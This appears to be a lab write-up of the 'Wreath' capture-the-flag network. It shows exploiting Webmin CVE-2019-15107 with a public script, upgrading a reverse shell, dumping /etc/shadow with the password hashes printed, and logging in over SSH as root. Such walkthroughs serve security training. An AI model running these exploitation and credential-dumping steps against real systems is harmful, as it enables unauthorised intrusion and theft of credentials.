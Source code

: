 We got an error when opened the site 
```
10.200.85.200
```
![[Pasted image 20231206142030.png]]


In real life we would perform a "footprinting" phase of the engagement at this point. This essentially involves finding as much public information about the target as possible and noting it down. You never know what could prove useful!
After adding the IP address in the host file we were able to view the site
```
10.200.85.200 thomaswreath.thm
```
![[Pasted image 20231206142204.png]]


We are not able to get the OS information from Nmap but able to get the OS info from Wappalyzer


Service Running : snet-sensor-mgmt 
Vulnerability : CVE-2019-15107

On searching the exploit i got a script to check if we can exploit it or not
https://github.com/MuirlandOracle/CVE-2019-15107
```
pip3 install -r requirements.txt
```
 It is, however, good practice to read through scripts before running them


```
https://thomaswreath.thm:10000/
```
![[Pasted image 20231206144238.png]]

Yup we were able to exploit it
![[Pasted image 20231206144625.png]]

![[Pasted image 20231206144859.png]]
![[Pasted image 20231206144922.png]]
Got a reverse shell with full access to have to write some code dumb shell to full aceess shell

```
python3 -c "__import__('pty').spawn('/bin/bash')"
stty -raw echo;fg 
reset.

export TERM=xterm
```


Let's get the shadow file

```
cat /etc/shadow

root:$6$i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1::0:99999:7:::

twreath:$6$0my5n311RD7EiK3J$zVFV3WAPCm/dBxzz0a7uDwbQenLohKiunjlDonkqx1huhjmFYZe0RmCPsHmW3OnWYwf8RWPdXAdbtYpkJCReg.::0:99999:7:::
```


```
ssh -i id_rsa root@thomaswreath.thm
chmod 600 id_rsa
```
chmod 600 ( rw------- )600 permissions means that **only the owner of the file has full read and write access to it**. Once a file permission is set to 600, no one else can access the file.
![[Pasted image 20231206150600.png]]

